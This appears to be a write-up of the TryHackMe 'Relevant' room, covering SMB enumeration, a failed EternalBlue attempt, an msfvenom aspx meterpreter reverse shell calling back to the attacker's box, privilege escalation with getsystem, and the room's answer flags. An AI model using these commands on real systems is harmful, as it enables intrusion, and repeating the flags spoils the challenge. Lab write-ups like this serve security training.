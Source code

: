 
# Relevant CTF Walkthrough

Relevant is a vulnerable server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/Relevant<br />
THM Difficulty: Medium<br />
My Difficulty: Easy<br />
Target IP: 10.10.39.76<br />
AttackBox IP: 10.10.153.77<br />
</i>

# Enumeration

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```shell
rustscan -a 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flag -sV to find the service versions on the open ports.<br />
```shell
nmap -sV -sC -p80,135,139,445,3389,5985,49663,49667,49669 10.10.39.76
```
```shell
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-08 18:21 GMT
Nmap scan report for ip-10-10-39-76.eu-west-1.compute.internal (10.10.39.76)
Host is up (0.0054s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-03-07T18:16:50
|_Not valid after:  2023-09-06T18:16:50
|_ssl-date: 2023-03-08T18:21:59+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:A8:11:CA:08:F3 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 02:a8:11:ca:08:f3 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-08T10:21:59-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-08 18:21:59
|_  start_date: 2023-03-08 18:17:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.63 seconds
```
We have found a few open ports with different services, let's try to find some vulnerabilities!

## SMB Service Enumeration

Firstly we'll try using the SMB enum scripts that Nmap has to offer<br />
```shell
nmap -p 139,445 -Pn -script smb-enum* 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT7.png?raw=true)<br />
Interesting, we have read/write access on this share... We'll try to use that to exploit the service if we can't find anything else.<br />

Let's do the same thing but with the SMB vuln scripts to see if there are any vulnerabilities.<br />
```shell
nmap -p 139,445 -Pn -script smb-vuln* 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT6.png?raw=true)<br />
Bingo! It looks like the SMB server is vulnerable to MS17-010. We'll enumerate more then exploit this!<br />

Let's have a look at the SMB service, we'll try to list the shares on the system to see if we can access anything.<br />
```shell
smbclient -L 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT2.png?raw=true)<br />
We were able to list the shares without entering a password and it looks like we have access to the share "nt4wrksv". Let's try connecting to the share now and listing the contents.<br />
```shell
smbclient \\\\10.10.39.76\\nt4wrksv
ls
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT3.png?raw=true)<br />
Ooh a file named ```passwords.txt``` let's download the file and have a look inside...
```shell
get passwords.txt
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT4.png?raw=true)<br />
Inside we see two passwords that have been encoded... Looks like Base64 to me, let's try decoding them!<br />

Awesome! We have two accounts now.<br />

#Exploitation


## MS17-010 Remote Code Execution

We're going to use Metasploit to exploit the vulnerability, let's fire it up.<br />
```shell
msfconsole
```
Once we have Metasploit open we're going to select the module to use and then set the required options.<br />
```shell
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.39.76
set SMBUser Bill
set SMBPass Juw4nnaM4n420696969!$$$
exploit
```
... Damn that didn't work... Nevermind let's try something else!<br />

## Exploiting SMB Permissions

Earlier when we performed our Nmap scan with default scripts enabled, we saw that we had read/write permissions on the nt4wrksv share. Let's create a reverse shell with msfvenom.<br />
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.153.77 LPORT=4444 -f aspx > shell.aspx
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT8.png?raw=true)<br />
Now let's upload it to the SMB share.
```shell
smbclient \\\\10.10.39.76\\nt4wrksv
put shell.aspx
```
Before getting the shell to run, we'll need to start our meterpreter reverse_tcp listener! Let's load up Metasploit to do this.<br />
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.153.77
set LPORT 4444
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT9.png?raw=true)<br />
Now we have our listener, let's run the shell. We head over to our web browser and execute the shell.<br />
```shell
http://10.10.39.76:49663/nt4wrksv/shell.aspx
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT10.png?raw=true)<br />
Success! Now we have our reverse meterpreter shell. (The target box crashed so I had to restart it, it's a new IP if you didn't notice.)<br />

## Escalating Privileges

Let's check what user we're on and then spawn a shell and check our privileges.<br />
```shell
getuid
shell
whoami /priv
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT11.png?raw=true)<br />
Interesting... SeImpersonatePrivilege is enabled. We can use meterpreter to automatically elevate our privileges.<br />

Let's close our shell with Ctrl+C and use meterpreter to execute the following<br />
```shell
getsystem
getuid
```
Awesome! We have successfully elevated our privileges. Let's get the root flag and complete the box.<br />
```shell
cd C:/Users/Administrator/Desktop
cat root.txt
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT12.png?raw=true)<br />


## Questions & Answers

Question 1:<br />
**What is the user flag?** THM{fdk4ka34vk346ksxfr21tg789ktf45}<br />

Question 2:<br />
**What is the root flag?** THM{1fk5kf469devly1gl320zafgl345pv}<br />

### Farewell, I hope you all enjoyed this write-up!

